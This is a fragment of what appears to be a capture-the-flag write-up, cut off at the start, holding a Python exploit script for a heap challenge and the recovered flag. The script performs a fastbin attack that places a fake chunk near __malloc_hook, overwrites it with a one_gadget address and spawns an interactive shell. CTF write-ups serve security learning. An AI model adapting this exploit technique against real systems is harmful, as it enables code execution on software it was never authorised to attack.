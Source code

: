 ```python 
    0,0x71, 
    b'b'*0x60,
    0, 0x71
    ) 
GDB()
add(0x100,b'aaaa', payload) # 12
delete(13)
delete(12)

malloc_hook = libc.sym['__malloc_hook']
fake_chunk = malloc_hook - 0x23

payload = flat(
    b'a'*0x80, 
    0,0x71, 
    fake_chunk,
    b'b'*0x58,
    0, 0x71
    ) 

add(0x100,b'aaaa', payload) # 12
add(0x60,b'aaaa', b'a') # 13
one_gadget = [0x45216, 0x4526a, 0xef6c4, 0xf0567]
add(0x60,b'EEEE',b'A'*19+p64(libc.address + one_gadget[2])) # 14
delete(2)
delete(3)

p.interactive()
```

## Flag 

FLAG{It_just_4_s3cr3t_on_the_h34p}

